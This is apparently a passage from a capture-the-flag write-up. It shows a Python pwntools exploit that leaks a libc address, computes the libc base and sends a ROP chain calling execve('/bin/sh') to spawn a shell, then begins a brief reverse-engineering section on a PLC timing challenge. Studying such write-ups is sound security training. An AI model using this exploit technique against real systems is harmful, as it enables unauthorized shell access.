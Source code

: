 ```python
p.sendline(payload)

libc = ELF('/lib32/libc-2.24.so')

p.recvuntil('GLIBC_2.0')
read_addr = u32(p.recv(4))
print 'leak read addr is: ', hex(read_addr)
if not debug:
    offset_read = 0x000d4350
    offset_str_bin_sh = 0x15900b
    offset_execve = 0x000af590
else:
    offset_read = libc.symbols['read']
    offset_execve = libc.symbols['execve']
    offset_str_bin_sh = libc.search('/bin/sh').next()

libcbase = read_addr - offset_read
print 'got libcbase:', hex(libcbase)

execve_addr = libcbase + offset_execve
bin_sh = libcbase + offset_str_bin_sh 
print 'got execve addr:', hex(execve_addr)
print 'got /bin/sh addr:', hex(bin_sh)
rop = p32(execve_addr) + p32(0) + p32(bin_sh) + p32(0) + p32(0)
p.sendline(rop)
p.interactive()
```
## Reverse

### PLC时钟误差

分析代码，只要输入的参数能够让程序运行超过10s即可获得shell

![Alt text](images/PLC_1.png)
